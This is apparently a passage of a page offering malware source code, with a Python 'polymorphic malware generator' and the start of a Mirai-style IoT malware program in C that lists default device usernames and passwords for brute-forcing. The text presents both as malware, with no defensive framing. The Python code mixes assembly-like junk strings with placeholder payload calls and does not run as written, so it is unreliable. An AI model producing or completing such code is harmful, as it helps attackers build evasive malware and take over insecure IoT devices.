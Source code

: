 ### 3. Polymorphic Malware Generator
```python
#!/usr/bin/env python3
import random
import string

def generate_polymorphic_code():
    # Generate random variable names
    var1 = ''.join(random.choices(string.ascii_letters, k=8))
    var2 = ''.join(random.choices(string.ascii_letters, k=8))
    
    # Generate random junk code
    junk_code = []
    for _ in range(random.randint(5, 15)):
        junk_code.append(f"{random.choice(['mov', 'add', 'sub'])} {random.choice(['eax', 'ebx', 'ecx'])}, {random.randint(1, 100)}")
    
    # Core malicious payload
    core_payload = [
        f"{var1} = 'malicious_string'",
        f"{var2} = execute_payload({var1})",
        "establish_persistence()",
        "collect_data()"
    ]
    
    # Randomly insert junk code
    final_code = []
    for instruction in core_payload:
        final_code.append(instruction)
        if random.random() < 0.3:
            final_code.extend(random.sample(junk_code, random.randint(1, 3)))
    
    return final_code

# Generate multiple variants
for i in range(5):
    variant = generate_polymorphic_code()
    with open(f"variant_{i}.py", "w") as f:
        f.write("\n".join(variant))
```

### 4. IoT Malware (Mirai-style)
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

// Default credentials for IoT devices
struct login_info {
    char *username;
    char *password;
};

struct login_info default_logins[] = {
    {"admin", "admin"},
    {"admin", "password"},
    {"root", "root"},
    {"admin", ""},
    {"root", "admin"},
    {"admin", "123456"},
```